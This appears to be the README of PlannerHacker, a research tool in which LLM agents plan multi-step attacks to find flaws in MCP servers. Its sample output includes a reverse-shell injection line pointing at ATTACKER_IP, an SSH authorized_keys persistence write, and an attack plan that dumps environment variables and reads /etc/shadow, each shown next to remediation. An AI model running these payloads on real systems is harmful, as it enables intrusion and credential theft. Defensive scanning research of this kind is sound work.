




# 🛡️ PlannerHacker - MCP Security Scanner

<div align="center">

```
 ____  _                            _   _            _             
|  _ \| | __ _ _ __  _ __   ___ _ _| | | | __ _  ___| | _____ _ __ 
| |_) | |/ _` | '_ \| '_ \ / _ \ '__| |_| |/ _` |/ __| |/ / _ \ '__|
|  __/| | (_| | | | | | | |  __/ |  |  _  | (_| | (__|   <  __/ |   
|_|   |_|\__,_|_| |_|_| |_|\___|_|  |_| |_|\__,_|\___|_|\_\___|_|   
```

**Advanced Security Scanner for Model Context Protocol (MCP) Servers**

[](https://www.python.org/downloads/)
[](LICENSE)
[](pyproject.toml)
[](https://github.com/modelcontextprotocol)

[Features](#-features) • [Installation](#-installation) • [Usage](#-usage) • [Architecture](#-architecture) • [Research](#-research-context)

</div>

---

## 🎯 Overview

**PlannerHacker** is an enhanced security scanner for [Model Context Protocol (MCP)](https://docs.anthropic.com/en/docs/agents-and-tools/mcp) servers that uses **chain-of-thought reasoning** to discover complex, multi-step vulnerabilities. Built on the open-source `mcpSafetyScanner`, it introduces an innovative **Advanced Adversarial Agent** capable of creating and executing sophisticated attack plans.

### Why PlannerHacker?

Traditional security scanners use single-shot vulnerability detection, missing complex attack vectors that require multiple sequential steps. PlannerHacker uses LLM-powered chain-of-thought reasoning to:

- 🎯 **Plan Multi-Step Attacks** - Generate coordinated attack sequences
- 🔗 **Link Dependencies** - Reference outputs from previous steps
- 🧠 **Think Like a Hacker** - Simulate real-world attack methodologies
- 📊 **Generate Detailed Reports** - Comprehensive markdown reports with remediation steps

---

## ✨ Features

### 🤖 Advanced Agent System

- **PlannerHacker Agent** - Multi-step chain-of-thought vulnerability discovery
- **Hacker Agent** - Traditional single-shot scanning
- **Auditor Agent** - Compliance-focused security audits
- **Supervisor** - Orchestrates and manages agent execution

### 🔍 Vulnerability Detection

```
✓ Command Injection          ✓ Arbitrary File Read/Write
✓ Path Traversal             ✓ Privilege Escalation  
✓ Environment Variable Leak  ✓ SSH Key Injection
✓ Backdoor Installation      ✓ Credential Dumping
```

### 🎨 Rich Terminal Interface



Beautiful ASCII art banners, colorized output, and real-time progress updates powered by `rich` and `pyfiglet`.

### 📋 Detailed Security Reports

.png)

Automatically generated reports include:
- **Vulnerability classification** with severity levels
- **Concrete exploit examples** with command-line demonstrations
- **Remediation steps** with specific commands
- **Source citations** from security research

---

## 🚀 Installation

### Prerequisites

- Python **3.11+**
- `npx` (for MCP server execution)
- OpenAI API key or Azure OpenAI credentials

### Quick Start

```bash
# Clone the repository
git clone https://github.com/yourusername/plannerHacker.git
cd plannerHacker

# Create virtual environment
python -m venv .venv

# Activate virtual environment
# Windows:
.venv\Scripts\activate
# Linux/Mac:
source .venv/bin/activate

# Install dependencies
pip install -r requirements.txt

# Or install in development mode
pip install -e .

# Set your API key
export OPENAI_API_KEY="sk-your-key-here"
```

### Environment Configuration

Create a `.env` file:

```bash
# Required: Choose one LLM provider
OPENAI_API_KEY=sk-your-key-here

# Or use Azure OpenAI
AZURE_OPENAI_API_KEY=your-azure-key
AZURE_OPENAI_ENDPOINT=https://your-endpoint.openai.azure.com/

# Optional: Database for knowledge base
POSTGRES_DB=ai
POSTGRES_USER=ai
POSTGRES_PASSWORD=ai
```

---

## 💻 Usage

### Basic Scan (Single-Step Hacker)

```bash
python mcpsafety/scanner/scan.py --config examples/example_config.json
```

### Advanced Scan (Multi-Step PlannerHacker)

```bash
python mcpsafety/scanner/scan.py --config examples/example_config.json --planner
```

### Network MCP Server Scan

```bash
# Terminal 1: Start MCP server
npx -y @modelcontextprotocol/server-everything streamableHttp --port 3001

# Terminal 2: Run scanner
python mcpsafety/scanner/scan.py --port 3001
```



### Scanning Vulnerable Test Server

```bash
# Scan the intentionally vulnerable server
python mcpsafety/scanner/scan.py --config VulnerableMCP/vulnerable_config.json --planner
```

### Command-Line Options

```bash
python mcpsafety/scanner/scan.py --help
```

| Option | Description | Default |
|--------|-------------|---------|
| `--config` | Path to MCP server config JSON | `config.json` |
| `--port` | Port for network-based MCP server | `3001` |
| `--planner` | Use PlannerHacker agent (multi-step) | `False` |
| `--hops` | Maximum chain-of-thought steps | `5` |
| `--output` | Output report file path | stdout |

---

## 🏗️ Architecture



### Component Overview

| Component | File | Purpose |
|-----------|------|---------|
| **Main Scanner** | `mcpsafety/scanner/scan.py` | Entry point, CLI, server management |
| **Agent System** | `mcpsafety/scanner/agents.py` | Hacker, PlannerHacker, Auditor, Supervisor |
| **Vulnerable Server** | `VulnerableMCP/vulnerable_mcp_server.py` | Test server with intentional vulnerabilities |
| **Config Examples** | `examples/` | Sample MCP server configurations |

---

## 🧠 PlannerHacker in Action

### Chain-of-Thought Attack Planning

The PlannerHacker agent generates structured JSON attack plans:

```json
{
  "plan": [
    {
      "id": 1,
      "description": "Enumerate MCP server tools and capabilities",
      "command": "List available MCP server tools",
      "expected_output": "Tool manifest with permissions",
      "depends_on": []
    },
    {
      "id": 2,
      "description": "Read environment variables for credentials",
      "command": "get_environment_variables",
      "expected_output": "Environment dump including API keys",
      "depends_on": [1]
    },
    {
      "id": 3,
      "description": "Use file_manager to read /etc/shadow",
      "command": "read_file /etc/shadow",
      "expected_output": "Hashed password data",
      "depends_on": [1, 2]
    }
  ]
}
```

### Multi-Agent Collaboration



The scanner uses a **team-based approach** with specialized agents:

1. **Reconnaissance Agent** - Discovers tools and resources
2. **Research Agent** - Queries security databases (DuckDuckGo, arXiv, Hacker News)
3. **Exploitation Agent** - Generates concrete attack examples
4. **Supervisor Agent** - Coordinates team and synthesizes findings

---

## 📊 Sample Output

### Vulnerability Report

The scanner identifies **5 critical vulnerability categories**:

#### 🔴 Critical: Command Injection
```bash
# Exploitation Example
list files; /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# Remediation
import shlex
safe_arg = shlex.quote(user_input)
subprocess.run(["ls", "-l", safe_arg], shell=False)
```

#### 🔴 Critical: Arbitrary File Operations
```bash
# Exploitation: SSH Key Persistence
write to file /home/user/.ssh/authorized_keys with content 'ssh-rsa AAAAB3...'

# Remediation
sudo chmod 600 /home/user/.ssh/authorized_keys
sudo chown user:user /home/user/.ssh/authorized_keys
```

See [`output3.txt`](output3.txt) and [`output3.md`](output3.md) for complete sample reports.

---

## 🔧 Configuration

### MCP Server Configuration

Example `config.json`:

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "npx",
      "args": ["-y", "@modelcontextprotocol/server-filesystem", "/home/user"],
      "timeout": 300000
    },
    "everything": {
      "command": "npx",
      "args": ["-y", "@modelcontextprotocol/server-everything"],
      "env": {
        "AWS_ACCESS_KEY_ID": "test-key",
        "OPENAI_API_KEY": "sk-test"
      }
    }
  }
}
```

### Supported MCP Servers

- ✅ **stdio-based**: Via `npx` or direct Python execution
- ✅ **HTTP/SSE**: Network-based servers on custom ports
- ✅ **Custom servers**: User-defined vulnerable servers

See [`examples/`](examples/) directory for more configurations.

---

## 🧪 Testing

### Vulnerable Test Server

The project includes an **intentionally vulnerable MCP server** for safe testing:

```python
# VulnerableMCP/vulnerable_mcp_server.py
DANGEROUS_TOOLS = {
    "read_file": "Unrestricted file reading",
    "write_file": "Arbitrary file writes", 
    "execute_shell_command": "Direct shell command execution",
    "get_environment_variables": "Exposes all env vars"
}
```

**⚠️ Warning**: Only use the vulnerable server in isolated environments!

---

## 📚 Documentation

| Document | Description |
|----------|-------------|
| [`SRS.md`](Docs/SRS.md) | Software Requirements Specification |
| [`WorkFlow.md`](Docs/WorkFlow.md) | 5-phase development workflow |
| [`Final paper.pdf`](Docs/Final%20paper.pdf) | Academic research paper |

### Development Phases

1. **Foundation** - Codebase analysis & setup
2. **Innovation** - PlannerHacker system design
3. **Implementation** - Coding the multi-step agent
4. **Evaluation** - Experimental validation
5. **Publication** - Academic paper writing

---

## 🔬 Research Context

This project is designed for **academic publication** in AI security:

- **Hypothesis**: Multi-step chain-of-thought planning discovers more vulnerabilities than single-shot scanning
- **Methodology**: Comparative evaluation (Hacker vs. PlannerHacker)
- **Validation**: Controlled experiments with vulnerable test servers
- **Target Audience**: Security researchers, penetration testers, DevSecOps teams

### Key Innovation

> Traditional security scanners miss complex vulnerabilities that require multiple coordinated steps. PlannerHacker uses LLM-powered chain-of-thought reasoning to plan and execute sophisticated multi-hop attacks, significantly improving vulnerability discovery rates.

---

## 🛠️ Technology Stack

### Core Dependencies

- **`agno`** (1.7.7) - AI agent framework
- **`mcp`** (1.12.3) - Model Context Protocol client
- **`openai`** (1.98.0) - OpenAI API integration
- **`rich`** (14.1.0) - Terminal formatting
- **`pyfiglet`** (1.0.3) - ASCII art banners

### Security Tools

- `sqlmap` - SQL injection detection
- `beautifulsoup4` - HTML/XML parsing
- `validators` - Input validation

### Data & Analysis

- `pandas` - Data analysis
- `scikit-learn` - ML utilities
- `pgvector` - Vector database support

See [`requirements.txt`](requirements.txt) for complete dependency list.

---

## 🤝 Contributing

We welcome contributions! Areas for enhancement:

- 🎯 **New Attack Strategies** - Expand PlannerHacker capabilities
- 🧪 **Test Cases** - Add more vulnerable scenarios
- 📊 **Report Formats** - HTML, PDF, CSV outputs
- 🌐 **Protocol Support** - Additional MCP protocol variants
- 🔍 **Vulnerability Types** - New detection patterns

---

## 📖 References

- [MCP Specification](https://docs.anthropic.com/en/docs/agents-and-tools/mcp)
- [Model Context Protocol GitHub](https://github.com/modelcontextprotocol)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

---

## ⚖️ License

This project is licensed under the **Mozilla Public License 2.0** (MPL-2.0).

See [`LICENSE`](LICENSE) for details.

---

## ⚠️ Disclaimer

**This tool is for authorized security testing only.** 

- ✅ Use on systems you own or have explicit permission to test
- ✅ Educational and research purposes
- ❌ Unauthorized access to systems is illegal
- ❌ The authors assume no liability for misuse

The included vulnerable server is for **controlled testing environments only**.

---

## 🙏 Acknowledgments

- Built upon the open-source **mcpSafetyScanner** framework
- Powered by [Anthropic's Model Context Protocol](https://github.com/modelcontextprotocol)
- LLM capabilities via OpenAI and Google Gemini
- Security research inspired by MITRE ATT&CK and OWASP

---

<div align="center">

**Made with ❤️ by the PlannerHacker Team**

[⭐ Star this repo](https://github.com/yourusername/plannerHacker) • [🐛 Report Bug](https://github.com/yourusername/plannerHacker/issues) • [💡 Request Feature](https://github.com/yourusername/plannerHacker/issues)

</div>